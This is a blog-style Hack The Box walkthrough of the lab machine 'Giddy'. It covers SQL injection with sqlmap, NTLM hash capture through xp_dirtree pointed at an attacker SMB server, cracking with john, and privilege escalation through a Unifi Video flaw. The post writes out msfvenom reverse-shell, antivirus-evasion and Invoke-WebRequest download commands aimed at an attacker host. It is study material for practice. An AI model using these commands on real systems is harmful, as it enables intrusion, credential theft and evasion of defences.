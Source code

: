 ```yaml
---
layout: post
title:  "Hack The Box Giddy writeup (w/o Metasploit)"
date:   2019-10-22 11:52:14 -0400
featured_img: "/assets/giddy-10.10.10.104.png"
categories: giddy HTB
---
```


10.10.10.104 - Giddy
![Giddy](/assets/giddy-10.10.10.104.png)


First of all we will start with nmap.

`nmap -sC -sV -O 10.10.10.104`

![nmap](/assets/nmap-10.10.10.104.png) Ports 80 and 443 are open. Name of the machine is 'Giddy'


Let's try searching directories on the server:

`root@kali:~/dirsearch# python3 dirsearch.py -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e asp -f -t 20 -u 10.10.10.104`

![dirsearch](/assets/dirsearch-10.10.10.104.png)


Here we can see two interesting paths:
- /remote
- /mvc


Let start with `/remote`

![dirsearch](/assets/remote-10.10.10.104.png)

We need credentials to login. But we do not have those. So let's look elsewhere.

Now let's try `/mvc`

![dirsearch](/assets/mvc-10.10.10.104.png)



Let's check for SQL injections
![search](/assets/search-10.10.10.104.png)

adding ' in the end of string gives us an error
![SQL injection](/assets/search-sqli-10.10.10.104.png)

So lets try running sqlmap

`sqlmap -u http://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=10 --dump`

![SQL injection](/assets/sqlmap-10.10.10.104.png)

We are dealing with MSSQL server here



Given command will dump tables to `/root/.sqlmap/output/10.10.10.104/dump/Injection/`

![SQL injection](/assets/sqlmap-files-10.10.10.104.png)

But the only useful info we could find is the user --> `Stacy`

Ok. So what's next?
After some googling around I noticed that everybody was pointing to this post [https://www.patrickkeisler.com/2012/11/how-to-use-xpdirtree-to-list-all-files.html][xpdirtree] about xp_dirtree.

`xpdirtree : 1; EXEC MASTER.sys.xp_dirtree '\\10.10.14.19\share'`

![SQL request](/assets/sqli-request-10.10.10.104.png)

We can try to capture NTLM hash using extended stored procedure `xp_dirtree` by making it connect to our [smbserver](https://github.com/SecureAuthCorp/impacket) or [Responder](https://github.com/lgandx/Responder).
Good article on responder [Pwning with Responder – A Pentester’s Guide](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)

So, let's start smbserver.py that will listen on our Kali machine

![listen with smbserver.py](/assets/smbserver-10.10.10.104.png)

Alternatively we can do it with responder

request:

`https://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=10; EXEC MASTER.sys.xp_dirtree '\\10.10.14.19'`

listen with smbserver.py

`/root/impacket/examples/smbserver.py share ~/emptyfolder/`

Alternatively listen with Responder:

`./Responder.py -I tun0 -w -r -f`

Either way we will get hash:

{% highlight shell %}
Stacy::GIDDY:
4141414141414141:e2b88cdd4f99f01556ca0199ca1db0e0:010100000000000000b58d3b6879d50
{% endhighlight %}

So I saved it to giddy_hash.txt file and try to crack it.
We can do it using `hashcat` or `john`

hashcat

![hashcat part 1](/assets/hashcat-10.10.10.104.png)

![hashcat part 2](/assets/hashcat2-10.10.10.104.png)

john

`john --wordlist=/usr/share/wordlists/rockyou.txt giddy_hash.txt`

![john](/assets/john-10.10.10.104.png)

password: xNnWo6272k7x

So now, let's go to /remote and try to login with our creds

![login](/assets/login-10.10.10.104.png)

Congrats, we are in.

![login](/assets/user-flag-10.10.10.104.png)

and so, we got user.

Inside Documents folder we found a file name unifivideo.
Let's google it. Turns out there is a privesc cve ( CVE-2016-6914 ) for this application.
Here is a good explanation on how we can take advantage of it [https://www.exploit-db.com/exploits/43390][43390]

This part is the most interesting for us:

`By copying an arbitrary "taskkill.exe" to "C:\ProgramData\unifi-video\" as an
unprivileged user, it is therefore possible to escalate privileges and execute
arbitrary code as NT AUTHORITY/SYSTEM.`

So all we need here is to generate reverse shell file, name it taskkill.exe, copy it onto the
system and place it inside `C:\ProgramData\unifi-video\` folder.
Sounds easy.

So, first, we should generate reverse shell:

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.19 LPORT=443 -f exe > taskkill.exe`

![msfvenom](/assets/msfvenom-10.10.10.104.png)

Serve contents of our folder with python `python -m SimpleHTTPServer 80`

and upload our file:

`Invoke-WebRequest -o taskkill.exe http://10.10.14.19/taskkill.exe`

![login](/assets/bad-upload-10.10.10.104.png)


Oh no, something is wrong


Our file is not there. Why? Probably an antivirus blocking us from doing what we want.
There is a tool called phantom evasion ([https://github.com/oddcod3/Phantom-Evasion][Phantom]) that
will help obfuscate code of our reverse shell so antivirus can't recognize and block it.

![phantom1](/assets/phantom1-10.10.10.104.png)

We will use following options.
1 windows modules ,
1 shellcode injection
4 windows shellcode injection heapalloc

![phantom2](/assets/phantom2-10.10.10.104.png)

here we choose Msfvenom

payload: `windows/shell_reverse_tcp`

And for encoding option 4: `x86/xor_dynamic + Triple Multibyte-key xor`

![phantom3](/assets/phantom3-10.10.10.104.png)

for multi processes behaviour , stripping and signing the executable we choose not to do that
This time when we upload the file it will work

Again, serve contents of our folder with python `python -m SimpleHTTPServer 80`

and upload taskkill.exe file to C:\ProgramData\unifi-video\

`Invoke-WebRequest -o C:\ProgramData\unifi-video\taskkill.exe http://10.10.14.19/taskkill.exe`


Lets restart service and see what is going on:
Restart-Service -Name "Ubiquiti UniFi Video"

![Restart Service](/assets/restart-service-10.10.10.104.png)

so we got the system

![root shell](/assets/root-shell-10.10.10.104.png)

And here goes our root flag

![Root flag](/assets/root-flag-10.10.10.104.png)



[43390]: https://www.exploit-db.com/exploits/43390
[Phantom]:   https://github.com/oddcod3/Phantom-Evasion
[xpdirtree]: https://www.patrickkeisler.com/2012/11/how-to-use-xpdirtree-to-list-all-files.html
